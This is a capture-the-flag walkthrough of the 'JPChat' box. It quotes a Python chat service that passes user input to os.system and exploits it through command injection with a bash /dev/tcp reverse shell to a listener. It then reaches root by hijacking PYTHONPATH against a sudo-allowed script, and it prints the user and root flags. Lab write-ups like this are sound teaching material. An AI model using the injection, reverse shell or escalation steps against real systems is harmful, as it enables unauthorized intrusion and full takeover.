

# JPGChat



---

# Enumeration


Open web browser to view the service on port `3000`


The page source does not hide anything else


# Establish the foothold & Analyze the vulnerability

Base on the message in the browser, I found a `jpchat.py` file from [https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py](https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py)

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

Notice on these code lines:

```python
your_name = input('your name:\n')
report_text = input('your report:\n')
os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

It uses the `os.system` to execute a command which would parse the input from user (`your_name` and `report_text`) to a text file `report.txt` within `%s` placeholder → There is no sanitization step of the input data → The code could be exploit by adding the semi-colon `;` to end the `echo` command and execute the malicious code because I am still in the context of `bash -c ''` 

# Exploit

Start `Netcat Listener` on the local machine

```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
```

Use `Netcat` (`nc`) to connect to the port `3000` of the target machine

```tsx
┌──(kali㉿kali)-[~]
└─$ nc 10.10.146.251 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

Then, type `[MESSAGE]` to start the process → After that, type `[REPORT]` to observe the application (`jpchat.py`) run the `report_form()` function which contains the vulnerable code

```tsx
┌──(kali㉿kali)-[~]
└─$ nc 10.10.146.251 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[MESSAGE]
There are currently 0 other users logged in
[MESSAGE]: [REPORT]
this report will be read by Mozzie-jpg
your name:
```

Here, use the reverse shell payload to exploit

```tsx
this report will be read by Mozzie-jpg
your name:
hacker; bash -i >& /dev/tcp/10.8.97.213/4444 0>&1;
your report:
I hacked you // (Type anything)
hackers
```

Back to the `Netcat Listener` → Verify that the connection is success

```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.146.251] 38138
bash: cannot set terminal process group (1462): Inappropriate ioctl for device
bash: no job control in this shell
wes@ubuntu-xenial:/$ id
id
uid=1001(wes) gid=1001(wes) groups=1001(wes)
```

Navigate the `user.txt` file and get the flag

```python
wes@ubuntu-xenial:/$ cd /home
wes@ubuntu-xenial:/home$ ls
wes
wes@ubuntu-xenial:/home$ cd wes
wes@ubuntu-xenial:~$ ls -l
ls -l
total 4
-rw-r--r-- 1 root root 38 Jan 15  2021 user.txt
wes@ubuntu-xenial:~$ cat user.txt
JPC{487030410a543503cbb59ece16178318}
```

# Privilege Escalation → root

Type `sudo -l` to determine which commands does the `wes` user could execute

```tsx
wes@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

So user `wes` could execute `python3` within the file `test_module.py` as `root` privilege

Let’s figure out the content of the file ****************************test_module.py****************************

```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

The file `import` everything from the module `compare` then it simply print out the compared string.

Unfortunately, the user `wes` does not have the permission on modify (`writable`) to the `test_module.py` and the directory where it is placed

```tsx
wes@ubuntu-xenial:~$ ls -l /opt/development/test_module.py
ls -l /opt/development/test_module.py
-rw-r--r-- 1 root root 93 Jan 15  2021 /opt/development/test_module.py
wes@ubuntu-xenial:~$ ls -l /opt/ | grep development
ls -l /opt/ | grep development
drwxr-xr-x 2 root root 4096 Jan 15  2021 development
```

Look back to the output of `sudo -l` command → Notice that `wes` could also access the `mail_badpass` and the variable of `env_keep` which is `PYTHONPATH`

Through these things, I start to create a new file `compare.py` which would be import to the `test_module.py` and run as `root`. The content I import to this file is a payload which used to establish a shell and because this file would be executed by a `root` file (******************************test_module.py******************************) → It would establish a shell as `root` user

```tsx
wes@ubuntu-xenial:~$ echo "import pty;pty.spawn('/bin/sh')" > compare.py
```

Then, I need to add the current directory where the created module `compare.py` is to the `PYTHONPATH` variable

```tsx
wes@ubuntu-xenial:~$ export PYTHONPATH=/home/wes/
wes@ubuntu-xenial:~$ echo $PYTHONPATH
/home/wes/
```

Now it’s time to be root

```tsx
wes@ubuntu-xenial:~$ sudo -u root /usr/bin/python3 /opt/development/test_module.py
<u root /usr/bin/python3 /opt/development/test_module.py                     
# id
uid=0(root) gid=0(root) groups=0(root)
```

I am ********root******** now! Navigate to `/root` directory and get the root flag

```tsx
# cd /root
# cat root.txt
cat root.txt
JPC{665b7f2e59cf44763e5a7f070b081b0a}

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
# bash: [1469: 3 (255)] tcsetattr: Inappropriate ioctl for device
```